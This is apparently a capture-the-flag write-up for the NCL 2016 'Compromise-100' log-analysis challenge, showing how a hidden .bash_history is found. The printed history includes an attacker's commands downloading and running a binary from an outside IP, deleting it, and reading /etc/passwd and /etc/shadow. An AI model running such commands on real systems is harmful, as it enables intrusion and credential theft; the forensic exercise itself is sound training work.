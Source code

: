 # NCL 2016 : Compromise-100

__Category__: Log Analysis

__Points__: 100

## Write-up

<a href="https://jhalon.github.io/images/nclp-2.png"><img src="https://jhalon.github.io/images/nclp-2.png"></a>

For this challenge we are provided the following file: [NCL-2016-Game2-Compromise.zip](https://jhalon.github.io/download/NCL-2016-Game2-Compromise.zip)

--

__From what URL did the hacker download malware from?__

Since this is a Folder instead of a file, we have to dig through it and see what’s in there.

```console
root@kali:~# cd Downloads/
root@kali:~/Downloads# cd NCL-2016-Game2-Compromise/
root@kali:~/Downloads/NCL-2016-Game2-Compromise# cd dir
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# ls
application  docs  README.md
```

We can see that we have a README file, documents for the game, and the application itself. Now this is the "trick" part, there is nothing in these folders. We actually have to dig a little deeper! Since they say the hackers tried to break into a "server" we can assume that these files were being hosted... so let's check for all "hidden" files in the folder.

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# ls -a
.  ..  application  .bash_history  .bashrc  docs  README.md
```

After listing all files, we can see that we have the bash history and the interactive bash shell script. So first thing we can do is check the bash history for commands that the hacker could have ran on the server.

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
```